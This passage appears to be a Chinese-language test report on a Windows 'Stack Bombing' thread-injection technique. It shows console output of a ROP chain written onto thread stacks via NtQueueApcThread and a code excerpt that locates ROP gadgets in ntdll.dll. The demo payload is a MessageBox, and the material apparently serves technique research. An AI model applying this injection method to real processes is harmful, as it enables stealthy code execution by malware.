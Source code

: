 ```
    [44] -> 0xc0a2fff7b8
    [45] -> 0x0
[*] Writing ROP chain to stack using NtQueueApcThread...
    Original RSP: 0xc0a2fff7b8
    New stack:    0xc0a2ffd7b8
    ROP entries:  46
[+] Stack written successfully
[+] Injection successful

[*] Injecting into thread 92520
[-] Failed to open thread 92520: 87
[-] Injection failed

[+] Stack Bombing completed!
[!] Check target process for MessageBox popup
```

**结果**: ✅ **注入成功**

**关键点**：
1. ✅ 成功启动目标进程：PID = 118844
2. ✅ 枚举到 4 个线程
3. ✅ 成功注入到线程 23436：
   - 原始 RSP: `0xc0a2eff568`
   - 新栈: `0xc0a2efd568`（RSP - 0x2000）
   - 找到所有 ROP gadgets
   - 构建了 46 个条目的 ROP chain
   - 成功写入栈
4. ✅ 成功注入到线程 118352：
   - 原始 RSP: `0xc0a2fff7b8`
   - 新栈: `0xc0a2ffd7b8`
   - 同样成功写入 ROP chain
5. ⚠️ 线程 92520 打开失败（权限问题）

## 实现细节分析

### ROP Gadgets 搜索

**gadget_finder.c** (techniques/31-stack-bombing/src/gadget_finder.c)

程序在 ntdll.dll 的 .text 节中搜索所需的 gadgets：

```c
// 关键 Gadgets
GADGET_pivot = GadgetFinder("\x5C\xC3", 2);              // pop rsp; ret
GADGET_poprcx = GadgetFinder("\x59\xC3", 2);             // pop rcx; ret
GADGET_poprdx = GadgetFinder("\x5A\xC3", 2);             // pop rdx; ret
GADGET_popr8 = GadgetFinder("\x41\x58\xC3", 3);          // pop r8; ret
GADGET_addrsp = GadgetFinder("\x48\x83\xC4\x28\xC3", 5); // add rsp, 0x28; ret
```

**测试输出**：
```
[*] Searching for ROP gadgets...
[+] All gadgets found successfully
```
